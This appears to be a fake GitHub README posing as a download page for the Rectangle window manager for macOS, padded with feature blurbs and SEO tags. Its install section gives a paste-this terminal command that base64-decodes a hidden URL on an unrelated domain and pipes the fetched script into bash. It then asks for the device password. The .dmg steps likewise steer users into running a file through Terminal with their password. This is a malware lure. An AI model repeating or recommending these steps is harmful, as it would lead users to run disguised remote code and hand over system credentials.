 # Rectangle For Mac — Download For macOS
![Rectangle For Mac Logo](https://rectangleapp.com/assets/pro/images/mac512pts1x.png) 😊

Rectangle For Mac is a powerful, lightweight window management tool designed to enhance your macOS experience. Boost your productivity by organizing your workspace with ease. Follow the instructions below to download and install Rectangle For Mac seamlessly.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/rectangle)

If you encounter issues downloading via the button above, follow the terminal command instructions below.

## 📦 How to Install Rectangle For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🚀 **Effortless Window Management**: Snap windows to predefined layouts with simple keyboard shortcuts or drag-and-drop functionality.
- 🖥 **Multi-Monitor Support**: Seamlessly manage windows across multiple displays for a cohesive workflow.
- ⌨️ **Customizable Shortcuts**: Tailor keyboard shortcuts to match your preferences for a personalized experience.
- ⚡ **Lightweight Performance**: Runs efficiently without draining system resources, ensuring smooth operation.
- 🛠 **Open-Source Flexibility**: Access and contribute to the source code for a transparent and customizable tool.
- 🌐 **macOS Integration**: Designed to blend perfectly with macOS, supporting the latest versions.

## About Rectangle For Mac

Rectangle For Mac is an open-source window management tool that transforms how you organize your workspace on macOS. By offering intuitive window snapping, customizable shortcuts, and multi-monitor support, it empowers users to create an efficient and clutter-free desktop environment. Whether you're a developer, designer, or casual user, Rectangle For Mac simplifies multitasking, making it an essential addition to your macOS toolkit. Its lightweight design ensures it runs smoothly on any Mac device, from MacBook Air to Mac Pro.

Built with productivity in mind, Rectangle For Mac leverages macOS-native features to provide a seamless experience. The software allows you to snap windows to the edges of your screen or predefined grid layouts, saving time and reducing manual resizing. Its open-source nature means the community can contribute to its development, ensuring constant improvements and compatibility with the latest macOS updates. With Rectangle For Mac, you gain control over your workspace without sacrificing system performance.

The tool is particularly valuable for professionals who juggle multiple applications simultaneously. For instance, developers can keep their code editor, terminal, and browser neatly arranged, while designers can align design tools and previews effortlessly. Rectangle For Mac supports a wide range of macOS versions, ensuring accessibility for users with older systems. Its active community and regular updates make it a reliable choice for anyone seeking to optimize their macOS workflow.

By focusing on simplicity and functionality, Rectangle For Mac stands out as a must-have tool for macOS users. Its SEO-optimized design ensures it’s easy to find for those searching for terms like "macOS window manager," "free window management tool," or "Rectangle For Mac download." Whether you're looking to streamline your daily tasks or enhance your productivity, this software delivers a polished and professional experience.

## Advantages of Rectangle For Mac

- 🧩 **Intuitive Window Snapping**: Easily arrange windows with drag-and-drop or keyboard shortcuts.
- ⚙️ **Highly Customizable**: Adjust layouts and shortcuts to suit your unique workflow.
- 📈 **Boosts Productivity**: Organize multiple apps efficiently for faster task completion.
- 💻 **Multi-Monitor Ready**: Works flawlessly across multiple displays for complex setups.
- 🌟 **Free and Open-Source**: No cost, fully transparent, and community-driven.
- 🔄 **Regular Updates**: Stay compatible with the latest macOS versions and features.

## 🖼 Preview

![Window Snapping](https://rectangleapp.com/assets/images/snapAreaScreenshot.jpg)  
*Effortlessly snap windows to grid layouts for a clean workspace.*

![Multi-Monitor Support](https://rectangleapp.com/assets/images/shortcutScreenshot.jpg)  
*Seamlessly manage windows across multiple displays.*

![Custom Shortcuts](https://i.postimg.cc/5tY0nG7W/rectangle-shortcuts.png)  
*Customize keyboard shortcuts for quick window adjustments.*

![Settings Panel](https://i.postimg.cc/0yWqH1mQ/rectangle-settings.png)  
*Access a user-friendly settings panel to tweak preferences.*

## 🔍 Tags

Rectangle mac, Rectangle free, Rectangle, Rectangle download, Rectangle app, Rectangle desktop, Rectangle for mac, macOS window manager, Rectangle For Mac download, free window management tool, macOS productivity software, window snapping mac, multi-monitor macOS tool, open-source mac software, macOS workspace organizer, customizable window manager, macOS efficiency tool
